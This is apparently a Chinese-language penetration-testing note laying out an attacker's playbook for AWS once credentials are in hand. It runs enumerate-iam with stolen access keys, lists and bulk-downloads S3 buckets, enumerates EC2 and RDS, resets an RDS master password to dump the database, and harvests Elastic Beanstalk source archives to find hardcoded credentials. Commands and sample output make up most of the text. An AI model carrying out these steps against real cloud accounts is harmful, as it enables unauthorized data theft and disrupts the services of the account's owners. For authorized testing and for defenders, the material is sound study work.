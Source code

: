   #### 枚举 IAM 权限
  	https://github.com/andresriancho/enumerate-iam
	使用enumerate-iam 枚举与 AWS 凭证集关联的权限
	>git clone git@github.com:andresriancho/enumerate-iam.git
	>pip install -r requirements.txt
	>./enumerate-iam.py --access-key AKIA... --secret-key StF0q...
	2019-05-10 15:57:58,447 - 21345 - [INFO] Starting permission enumeration for access-key-id "AKIA..."
	2019-05-10 15:58:01,532 - 21345 - [INFO] Run for the hills, get_account_authorization_details worked!
	2019-05-10 15:58:01,537 - 21345 - [INFO] -- {
	    "RoleDetailList": [
	        {
	            "Tags": [],
	            "AssumeRolePolicyDocument": {
	                "Version": "2008-10-17",
	                "Statement": [
	                    {
	...
	2019-05-10 15:58:26,709 - 21345 - [INFO] -- gamelift.list_builds() worked!
	2019-05-10 15:58:26,850 - 21345 - [INFO] -- cloudformation.list_stack_sets() worked!
	2019-05-10 15:58:26,982 - 21345 - [INFO] -- directconnect.describe_locations() worked!
	2019-05-10 15:58:27,021 - 21345 - [INFO] -- gamelift.describe_matchmaking_rule_sets() worked!
	2019-05-10 15:58:27,311 - 21345 - [INFO] -- sqs.list_queues() worked!
	一旦您有权访问云帐户，您需要弄清楚您的用户有权与哪些资源进行交互。 AWS 有数百种服务，因此我们无法涵盖所有服务，但您至少应该熟悉基本服务
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/908.png)
  #### S3 存储桶
	我确定您听说过 S3 存储桶，但如果您没有听说过，它是一种用于存储文件和其他对象的公共云存储资源。 作为攻击者，这绝对是您想要寻找的东西，因为它有可能存储敏感数据。
	列出云环境中的所有 S3 存储桶
	> aws s3api list-buckets
	在某些情况下，您可能有权访问 S3 存储桶，但缺少列出 S3 存储桶名称所需的权限或策略。在这种情况下，您必须能够猜测或暴力破解您有权访问的 S3 存储桶的名称。
	知道 S3 存储桶的名称后，您可以通过发出以下 CLI 命令查看其内容：
	> aws s3 ls YOUR_BUCKET
	这将列出存储桶中的所有文件和文件夹。要下载文件，您可以发出“cp”命令，如下所示：
	> aws s3 cp s3://YOUR_BUCKET/file.txt file.txt
	如上所示，我们正在将文本文件“file.txt”下载到本地系统。
	您还可以使用以下命令下载整个 S3 存储桶：
	> aws s3 sync s3://YOUR_BUCKET
  #### 虚拟机
	AWS 有多种类型的虚拟机，但最流行的一种是弹性计算云 (EC2)。您可以根据需要使用 Amazon EC2 启动任意数量的虚拟服务器、配置安全性和网络以及管理存储。
	> aws ec2 describe-instances
	此命令返回 EC2 实例列表及其相关信息，例如其 IP 地址、instanceid、名称等。 以上返回大量信息，但您可以使用内置 JSON 解析器通过 --query 参数过滤输出
	> aws ec2 describe-instances --query "Reservations[*].Instances[*].{PublicIP:PublicIpAddress,Name:Tags[?Key=='Name']|[0].Value,Status:State.Name}"
  #### 数据库
	作为攻击者获得公司数据库的访问权限是一座金矿。 数据库包含各种有趣的东西，例如用户名和密码。 根据技术要求，一个环境中可能运行多种不同类型的数据库
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/909.png)

	AWS 提供处理一切的服务，但我们将专注于托管 MySql 数据库的“Amazon RDS”服务。 要获取正在运行的数据库的列表，请运行以下命令：
	> aws rds describe-db-instances
	返回的字段之一是地址和root用户。如果该地址可以外联，您可以将其与 root 用户一起使用来发起暴力攻击。
	根据您的权限，您可能能够重置主密码。这可以通过以下命令完成：
	> aws rds modify-db-instance --db-instance-identifier INSTANCE_NAME --master-user-password NEWPASSWORD --apply-immediately
	重置主密码后，您可以登录数据库并下载所有内容。但是，更改 root 密码肯定会引发警报，并且您可能会破坏使用该帐户的任何应用程序，因此在这样做时要小心。
  #### Elastic BeanStalk 
	AWS Elastic Beanstalk (EBS) 是一种易于使用的服务，用于部署和扩展使用 Java、. NET，PHP。在熟悉的服务器（如 Apache、Nginx、Passenger 和 IIS）上运行 Node.js、Python、Ruby、Go 和 Docker。这意味着我们可以使用 EBS 通过单击按钮或 shell 命令轻松部署应用程序。 AWS 自动化了整个部署过程。
	通常，您会看到部署到 beanstalk 环境的前端或 API。可以通过发出以下 CLI 命令来定位这些环境：
	> aws elasticbeanstalk describe-environments
	注意返回的“EndpointURL”变量。 这将有一个指向 EBS 托管的应用程序的公共 url。 拥有此端点后，您可以对该应用程序发起进一步的攻击
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/910.png)

	EBS 的另一个有趣之处在于，它将应用程序从 S3 存储桶中包含的源代码部署到 EC2 实例。 当我们按下部署按钮时，它会获取我们的源代码并将其保存到 S3 存储桶中，然后将其从该文件部署到虚拟机。 这意味着我们应该能够在 S3 存储桶中找到所有 EBS 应用程序的源代码。 任何有权访问该 S3 存储桶的人也将有权访问所有 EBS 应用程序的源代码
	> aws s3 ls  可以查看是否存在名为 elasticbeanstalk 的 S3 存储桶
	> aws s3 ls elasticbeanstalk-XXXX 
	在该 s3 存储桶上发出 ls 命令，您应该会看到一堆 .zip 文件。
	这些 zip 文件包含部署到 beanstalk 的应用程序的源代码。 下一步是下载这些文件并分析硬编码凭据和漏洞的源代码